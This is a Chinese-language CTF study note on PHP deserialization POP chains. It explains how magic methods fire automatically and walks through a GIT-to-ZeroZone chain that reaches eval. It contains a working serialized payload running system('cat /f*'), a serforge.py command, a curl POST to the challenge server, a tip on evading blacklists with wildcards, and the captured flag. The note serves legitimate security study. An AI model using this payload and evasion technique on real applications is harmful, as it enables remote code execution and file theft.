


# Web笔记14 · PHP 反序列化进阶：POP 链与魔法方法

> 配套图：`img/pop_chain.svg`
> 实战 WP：`WP-[qsnctf]反序列化POP链-eval代码执行.md`

## 0. 回顾与定位

- 笔记12 讲了**序列化格式**（对象/数组怎么变成字符串）。
- 第一题（40507）是「被动触发」：改属性让 `if($obj->pswd=='escaping')` 成立，源码直接 `echo $flag`。
- 本题（40515）是「主动串联」：源码里**没有现成的 `echo $flag`**，要自己把两个类的方法串起来，最终抵达 `eval` 代码执行 → 这就是 **POP 链**。

## 1. 魔法方法：不用你调用，PHP 自动触发

反序列化题先扫这些"会自动跑"的方法，危险逻辑常藏其中：

| 方法 | 何时自动触发 |
|---|---|
| `__construct` | `new` 对象时 |
| `__destruct` | 对象销毁（脚本结束 / `unset`）时 |
| `__toString` | 对象被当成字符串用（`echo` / 字符串拼接）时 |
| `__wakeup` | `unserialize()` 时 |
| `__sleep` | `serialize()` 时 |
| `__get` / `__set` | 读取 / 设置不可访问属性时 |

POP 链最常盯 **`__destruct`** 和 **`__toString`**，因为它们在反序列化之后"顺理成章"地发生，不需要我们再调用任何函数。

### 1.1 关键追问：GIT 对象"为什么会被销毁"？

很多人卡在这里：**我们明明没写任何调用 `__destruct()` 的代码，它怎么就自己跑了？**

答案在 PHP 的**脚本生命周期**：

1. 一次 HTTP 请求 = PHP 跑完一整个 `serialize.php` 脚本。
2. 脚本里 `$data = unserialize(...)` 造出了我们的 GIT 对象，它活在内存里。
3. 脚本执行到末尾（后面没别的代码了）→ PHP 进入**关机 / 资源清理**阶段。
4. 清理时，PHP 会**自动销毁内存里所有还没被释放的对象**，对每个对象调用一次 `__destruct()`。

所以**不是我们"销毁"了它，是 PHP 在请求结束时统一收尾，顺手触发了 `__destruct`**。在 Web 场景里，每一次请求结束都会发生这件事——这就是 POP 链能"自动"跑起来的根本原因：我们只需把对象造好，剩下的销毁流程引擎替我们走。

> 补充：`__destruct` 不只在脚本结束才触发。以下任一情况也会让对象"死掉"从而调用它：
> - 显式 `unset($obj)`
> - 变量被重新赋值 / 离开作用域（函数返回）
> - 对象最后一个引用被移除
>
> 但本题最常见、最稳定的触发点就是 **脚本（请求）结束**。源码里那行 `$data = new GIT();` 先造的默认对象，在 `$data` 被重新赋值为我们伪造的对象后**失去唯一引用**，会被提前销毁——不过它的 `username` 默认不是 `ZeroZone`，`if` 不满足，所以安然无事（这正是响应里 `ZeroZone Lab new bee !` 那段来的）。

### 1.2 魔法方法"自动执行"的本质

把 1.1 推广到所有魔法方法：它们**都不是你调用的，而是 PHP 引擎在特定事件发生时自动插入调用的**。事件对应表：

| 事件（引擎做的事） | 自动调用的方法 |
|---|---|
| 用 `new` 创建对象 | `__construct` |
| 对象"死掉"（见 1.1） | `__destruct` |
| `unserialize()` 刚刚重建完对象 | `__wakeup` |
| `serialize()` 准备读取对象前 | `__sleep` |
| 对象被当字符串用（`echo` / 拼接 / 转字符串） | `__toString` |

本题链路：`unserialize` 造对象（本题无 `__wakeup`）→ 请求结束 `__destruct` → `echo $password` → `$password` 是对象被当字符串 → `__toString` → `eval`。每一步都是引擎按事件自动串起来的，我们只在最前面"造好对象"这一下主动。



## 2. 什么是 POP 链（Property-Oriented Programming）

不是直接调用 `eval()`，而是**精心设计对象的属性值（尤其是让某个属性变成"另一个对象"）**，让 PHP 在对象生命周期里自动连续调用一串方法，最终抵达危险函数。

> 像多米诺：A 销毁 → 触发 B → 触发 C → … → `eval`。

核心技巧：**把"会被 echo / 字符串拼接 / 文件操作"的属性，设成一个能触发危险方法的对象**。

## 3. 本题实例：GIT → ZeroZone → eval

源码两个类（节选逻辑）：

```php
class GIT {
    public $username, $password;
    function __destruct(){
        if($this->username == 'ZeroZone') echo $this->password;  // ← echo 一个对象
    }
}
class ZeroZone {
    public $code;
    function __toString(){
        if(isset($this->code)) eval($this->code);   // ← 危险函数
    }
}
```

链的拼法：

1. 让 `GIT.username = 'ZeroZone'`（满足 `__destruct` 的 if，才会去 `echo $password`）
2. 让 `GIT.password = 一个 ZeroZone 对象`
3. `echo $password` 时，因为 password 是对象 → 触发 `ZeroZone::__toString()` → `eval($code)`
4. `code = system('cat /f*')` → 读出根目录 `/flag`



## 4. 构造 payload

手写（长度已核对）：

```
O:3:"GIT":2:{s:8:"username";s:8:"ZeroZone";s:8:"password";O:8:"ZeroZone":1:{s:4:"code";s:18:"system('cat /f*');";}}
```

用 `serforge.py`（支持嵌套对象，键 `__class__` 标记类名，嵌套值直接写子对象 dict）：

```bash
python serforge.py '{"__class__":"GIT","username":"ZeroZone","password":{"__class__":"ZeroZone","code":"system(\"cat /f*\");"}}'
```

发送注意：本题入口是 `$_POST['data']`，要用 POST 发，参数名 `data`：

```bash
curl -s -X POST "http://challenge.qsnctf.com:40515/serialize.php" \
  --data-urlencode 'data=O:3:"GIT":2:{s:8:"username";s:8:"ZeroZone";s:8:"password";O:8:"ZeroZone":1:{s:4:"code";s:18:"system('"'"'cat /f*'"'"');";}}'
```

Flag：`flag{544d4a6f5fc54e888f0862c8ff8de015}`

## 5. 速查口诀

- 反序列化题：**先扫 `__destruct` / `__toString` / `__wakeup` 里有没有危险函数**
- 源码里没 `echo $flag` → 找"哪个属性会被 echo / 拼接 / 读写文件"，让它是个能触发危险方法的对象
- 危险函数（`eval`/`system`/文件操作）常藏在**另一个类**里 → 用属性类型把两个类串起来
- 入口是 POST 就 POST 发，参数名要对上
- 无黑名单随便写；有黑名单用通配符 `/f*` 或 `'fl'.'ag'` 拼接躲
